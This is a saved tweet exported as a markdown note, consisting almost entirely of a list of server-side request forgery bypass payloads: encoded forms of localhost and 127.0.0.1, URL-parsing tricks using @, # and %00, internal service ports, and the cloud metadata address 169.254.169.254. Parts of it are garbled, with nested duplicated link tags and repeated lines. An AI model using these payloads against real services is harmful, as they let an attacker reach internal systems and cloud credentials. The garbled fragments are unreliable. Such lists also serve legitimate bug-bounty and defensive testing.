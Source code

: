 ```yaml
---
author: "@h4x0r_fr34k on Twitter"
aliases:
  - Tweets From VAIDIK PANDYA
tags:
  - readwise/tweets
url: https://twitter.com/h4x0r_fr34k
date: 2024-08-20
---
```

# Tweets From VAIDIK PANDYA

![rw-book-cover](https://pbs.twimg.com/profile_images/1716632383980707840/_MEi-5_O.jpg)

## Highlights


> Daily Notes : Day 48 
>  SSRF BYPASSES - part 2
>  Localhost bypass 
>  127.0.0.1:80
>  127.0.0.1:443
>  127.0.0.1:22
>  127.1:80
>  0
>  0.0.0.0:80
>  localhost:80
>  [::]:80/
>  [::]:25/ SMTP
>  [::]:3128/ Squid
>  [0000::1]:80/
>  [0:0:0:0:0:ffff:127.0.0.1]/thefile
>  ①②⑦.⓪.⓪.⓪
>  127.127.127.127
>  127.0.1.3
>  127.0.0.0
>  2130706433/
>  017700000001
>  3232235521/
>  3232235777/
>  0x7f000001/
>  0xc0a80014/
>  {domain}<a href="https://twitter.com/127"><a href="https://twitter.com/127"><a href="https://twitter.com/127"><a href="https://twitter.com/127">@127</a></a></a></a>.0.0.1
>  127.0.0.1#{domain}
>  {domain}.127.0.0.1
>  127.0.0.1/{domain}
>  127.0.0.1/?d={domain}
>  {domain}<a href="https://twitter.com/127"><a href="https://twitter.com/127"><a href="https://twitter.com/127"><a href="https://twitter.com/127">@127</a></a></a></a>.0.0.1
>  127.0.0.1#{domain}
>  {domain}.127.0.0.1
>  127.0.0.1/{domain}
>  127.0.0.1/?d={domain}
>  {domain}<a href="https://twitter.com/localhost">@localhost</a>
>  localhost#{domain}
>  {domain}.localhost
>  localhost/{domain}
>  localhost/?d={domain}
>  127.0.0.1%00{domain}
>  127.0.0.1?{domain}
>  127.0.0.1///{domain}
>  127.0.0.1%00{domain}
>  127.0.0.1?{domain}
>  127.0.0.1///{domain}st:+11211aaa
>  st:00011211aaaa
>  1.1.1.1 &@2.2.2.2# <a href="https://twitter.com/3">@3</a>.3.3.3/
>  127.1.1.1:80\@<a href="https://twitter.com/127"><a href="https://twitter.com/127"><a href="https://twitter.com/127"><a href="https://twitter.com/127">@127</a></a></a></a>.2.2.2:80/.
>  127.1.1.1:80#\<a href="https://twitter.com/127"><a href="https://twitter.com/127"><a href="https://twitter.com/127"><a href="https://twitter.com/127">@127</a></a></a></a>.2.2.2:80/
>  Enclosed Alphanumeric Bypasses :
>  http:// 169.254.169.254/%0A
>  http:// %E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94:80/
> [View Tweet](https://twitter.com/h4x0r_fr34k/status/1732029948117057683)


